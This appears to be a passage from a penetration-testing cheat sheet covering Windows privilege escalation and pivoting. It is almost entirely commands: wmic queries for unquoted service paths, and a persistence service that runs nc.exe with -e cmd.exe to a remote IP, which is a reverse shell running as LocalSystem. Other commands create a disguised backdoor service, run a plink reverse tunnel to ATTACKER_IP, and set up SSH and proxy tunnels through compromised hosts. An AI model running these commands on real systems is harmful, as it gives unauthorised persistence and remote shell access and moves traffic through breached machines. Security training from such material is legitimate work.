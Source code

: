 ### Unquoted Service Path
```bash
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

### Persistence via Services
```powershell
# cmd
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""

# powersehll
New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'" -Description "Not at all"
```

### Port Forwarding / SHH Tunneling

SSH: Local Port Forwarding
```bash
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

SSH: Dynamic Port Forwarding
```bash
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

SSH: Remote Port Forwarding
```bash
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

Proxy Tunnel
```bash
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
```
